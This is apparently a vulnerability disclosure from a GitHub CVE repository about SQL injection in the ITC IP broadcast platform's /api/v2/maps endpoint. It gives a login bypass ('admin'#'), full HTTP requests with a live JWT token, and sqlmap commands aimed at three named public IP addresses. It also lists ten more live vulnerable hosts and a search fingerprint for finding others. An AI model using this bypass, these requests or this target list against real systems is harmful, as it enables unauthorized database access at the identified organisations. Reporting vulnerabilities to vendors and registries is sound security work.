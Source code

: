 sql injection exists in ITC-ip service broadcast platform of Guangdong Paulan Electronics Co., LTD

Vulnerability Description 

There is sql injection in the background of ITC-ip service broadcasting platform of Guangdong Baolun Electronics Co., LTD. Attackers can obtain sensitive database information through this vulnerability

Certificate of Company assets

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps1.jpg))

https://pa.itc-pa.cn/

Affects Version: v2.0

Influence routing:

/api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName=

injection parameter:orderColumn

Space mapping： icon_hash="-568806419"

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps2.jpg)) 

Note: The vulnerability needs to log in to the background to obtain valid credentials to be carried out, you can use the front desk universal password    -admin‘#  Password-free access

Example I

 

 

http://60.170.49.111:81/login

use     admin’#/123456   Login successfully

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps3.jpg)) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 60.170.49.111:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps4.jpg)) 

Instance II

[***\*http://110.53.52.41:82/login\****](http://110.53.52.41:82/login)

use admin'# / 123456 Login successfully

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps5.jpg)) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

***\*GET /api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName= HTTP/1.1\****

***\*Host: 110.53.52.41:82\****

***\*Accept: application/json, text/plain, \*/\*\****

***\*X-Requested-With: XMLHttpRequest\****

***\*authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k\****

***\*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0\****

***\*Referer: http://60.170.49.111:81/monitor/map\****

***\*Accept-Encoding: gzip, deflate\****

***\*Accept-Language: zh-CN,zh;q=0.9\****

***\*Connection: close\****

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps6.jpg)) 

***Instance Ⅲ***

[***\*http://111.34.17.42:81/login\****](http://111.34.17.42:81/login)

*use admin'# / 123456 Login successfully*

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps7.jpg)) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 111.34.17.42:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

***\*python sqlmap.py -r ../url.txt --batch\****

![]([cve/picture/wps1.jpg at main · chennuo17/cve (github.com)](https://github.com/chennuo17/cve/blob/main/picture/wps8.jpg)) 

 

Other cases

\4. http://221.182.106.148:81/

\5. http://218.206.129.237:81/

\6. http://120.236.127.42:81/

\7. http://118.121.231.180:8181/login

\8. http://blojj2.sfsyxx.cn:81/login

\9. http://60.170.49.111:81/login

\10. http://58.42.97.3:81/login

\11. http://47.109.137.239/login

\12. http://61.157.98.107:8025/audio/media

\13. http://qjjsxy.com:81/login

 

# CNVD certificate number

CNVD-YCGW-202405084002

